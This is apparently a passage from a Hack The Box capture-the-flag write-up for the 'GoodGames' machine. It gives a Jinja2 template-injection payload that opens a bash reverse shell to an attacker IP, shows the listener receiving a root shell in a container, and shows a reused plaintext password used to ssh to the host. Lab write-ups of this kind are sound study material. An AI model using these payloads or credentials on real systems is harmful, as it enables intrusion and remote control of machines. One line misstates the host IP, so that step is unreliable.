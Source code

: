 ```
{{''.__class__.mro()[1].__subclasses__()[217]("bash -c 'bash -i >& /dev/tcp/10.10.14.12/4242 0>&1
'",shell=True,stdout=-1).stdout.read().decode('utf-8') }}
```

Passing this command will gives reverse shell.

```
┌──(root💀kali)-[~/htb/machines/goodgames]
└─# nc -lvnp 4242                          
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4242
Ncat: Listening on 0.0.0.0:4242
Ncat: Connection from 10.10.11.130.
Ncat: Connection from 10.10.11.130:57594.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# whoami
whoami
root
root@3a453ab39d3d:/backend# id
id
uid=0(root) gid=0(root) groups=0(root)
root@3a453ab39d3d:/backend#
```

Got the user flag from augustus user. But as this running inside a docker, we need to get out of it.

```
root@3a453ab39d3d:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.19.0.2  netmask 255.255.0.0  broadcast 172.19.255.255
        ether 02:42:ac:13:00:02  txqueuelen 0  (Ethernet)
        RX packets 472  bytes 76836 (75.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 358  bytes 141490 (138.1 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

As its ip address is 172.19.0.2, its host ip will be 172.19.0.2.

Doing ssh on root user has failed. But on user augustus with password found previously will gives us ssh shell. (password: *superadministrator*)

```
root@3a453ab39d3d:~# ssh augustus@172.19.0.1
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$ whoami
augustus
augustus@GoodGames:~$ id
```
